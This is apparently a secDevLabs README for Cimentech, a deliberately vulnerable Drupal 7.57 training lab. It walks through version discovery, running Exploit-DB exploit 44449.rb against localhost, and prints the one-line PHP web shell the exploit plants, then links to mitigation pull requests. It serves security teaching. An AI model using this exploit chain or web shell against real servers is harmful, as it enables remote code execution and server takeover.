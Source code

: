 # Cimentech

<p align="center">
    <img src="images/attack1.png"/>
</p>

Cimentech is a simple web application built with Drupal that contains an example of a component with a known vulnerability and its main goal is to demonstrate how an attacker could exploit it.

## Index

- [Definition](#what-does-it-mean-to-use-a-component-with-known-vulnerabilities)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What does it mean to use a component with known vulnerabilities?

Imagine that components, such as libraries, frameworks, and other software modules, run with the same privileges as the application. If a vulnerable component is exploited, such an attack can facilitate serious data loss or server takeover. Applications and APIs using components with known vulnerabilities may undermine application defenses and enable various attacks and impacts.

The main goal of this app is to discuss how **Using Components With Known Vulnerabilities** can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a9/cimentech
```

```sh
make install
```

Then simply visit [localhost][App] ! 😆

## Get to know the app 🏗

To properly understand how this application works, you could:

- Visit its homepage!

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Use of a vulnerable Drupal version allows for remote code execution


It's possible to reach the server's web application from the standard HTTP port 80, as shown by the image below:

<img src="images/attack1.png" align="center"/>

Afterward, by having a look at the `/robots.txt` file, it's possible to find the `CHANGELOG.txt` file in the `Disallow` field, as depicted by the image below:

<img src="images/attack2.png" align="center"/>

When accessed, an indication of the version of the Content Management System (Drupal) can be found, as shown below:

<img src="images/attack3.png" align="center"/>

Having the CMS version, it's possible to check on [exploit-db][3] if there are any exploits associated with that version, in this case, Drupal 7.57. The results of the search are depicted in the image below:

<img src="images/attack4.png" align="center"/>

By using [searchsploit](https://www.exploit-db.com/searchsploit), an attacker could also find this same result via a terminal. To install it, simply type the following in your OSX terminal (keep in mind it might trigger your anti-virus software) :

```sh
⚠️ 'The next command will install several exploit codes in your system and many of them may trigger antiviruses alerts'

brew install exploitdb
```

Then simply search for the version of the CMS found:

```sh
searchsploit drupal 7.
```

If you are using OSX, this command will help you to copy the exploit to your `/tmp` folder:

```
cp /usr/local/opt/exploitdb/share/exploit-database/exploits/php/webapps/44449.rb /tmp
```

## 🔥

Running the malicious Ruby code, we have evidence that remote code execution is possible on the web server, using the following commands as shown below:

```sh
ruby /tmp/44449.rb http://localhost
```

<img src="images/attack5.png" align="center"/>

**NOTE**: You need to have Ruby installed on your system to run the exploit, for information on how to install it, click [here][1]!

**NOTE 2**: If you came across an execution error when trying to run the exploit, please have a look at this [Issue][4] for information on how to proceed.

The exploit works by adding into the server a malicious `s.php`, which allows remote code execution on it via following malicious content: 

```php
<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
```

Using the exploit's "fake shell", we can type a command, such as `whoami`, to verify that we indeed have an RCE on the server, as shown by the image:

<img src="images/attack6.png" align="center"/>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

* Execute code remotely through the exploit above

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3ACimentech)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:80
[secDevLabs]: https://github.com/globocom/secDevLabs
[1]: https://www.ruby-lang.org/en/documentation/installation/
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a9/Cimentech
[3]: https://www.exploit-db.com/
[4]: https://github.com/globocom/secDevLabs/issues/212